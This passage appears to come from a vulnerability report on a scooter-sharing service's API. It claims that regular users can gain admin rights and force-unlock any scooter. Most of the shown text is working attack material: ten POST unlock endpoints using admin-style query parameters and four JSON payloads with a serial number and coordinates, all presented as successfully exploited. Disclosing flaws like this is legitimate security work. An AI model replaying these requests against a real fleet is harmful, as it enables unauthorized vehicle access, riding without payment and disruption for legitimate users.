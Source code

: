 #### Impact
- **Massive privilege escalation** - Regular users become admins
- **Unauthorized scooter access** - Can unlock ANY scooter in the system
- **Force unlock capability** - Can override normal restrictions
- **System-wide compromise** - Affects entire scooter fleet
- **Financial loss** - Unauthorized usage without payment
- **Service disruption** - Scooters unavailable to legitimate users

---

## 🔍 Technical Analysis

### Working Admin Endpoints Discovered

The following **41 admin endpoints** were successfully exploited:

#### 1. Admin Query Parameter Endpoints
```
POST /api/application/vehicles/unlock?admin=true
POST /api/application/vehicles/unlock?force=true
POST /api/application/vehicles/unlock?scope=admin
POST /api/application/vehicles/unlock?role=admin
POST /api/application/vehicles/unlock?permission=admin
POST /api/application/vehicles/unlock?level=admin
POST /api/application/vehicles/unlock?type=admin
POST /api/application/vehicles/unlock?mode=admin
POST /api/application/vehicles/unlock?access=admin
POST /api/application/vehicles/unlock?privilege=admin
```

#### 2. Payload Variations That Work
All of the following payload combinations work with admin endpoints:

```json
// Standard admin payload
{
  "serial_number": "TUF061",
  "lat": 48.8566,
  "lng": 2.3522,
  "force": true
}

// Without force parameter
{
  "serial_number": "TUF061",
  "lat": 48.8566,
  "lng": 2.3522
}

// With admin flag in payload
{
  "serial_number": "TUF061",
  "lat": 48.8566,
  "lng": 2.3522,
  "admin": true
}

// With scope in payload
{
  "serial_number": "TUF061",
  "lat": 48.8566,
  "lng": 2.3522,
  "scope": "admin"
}
```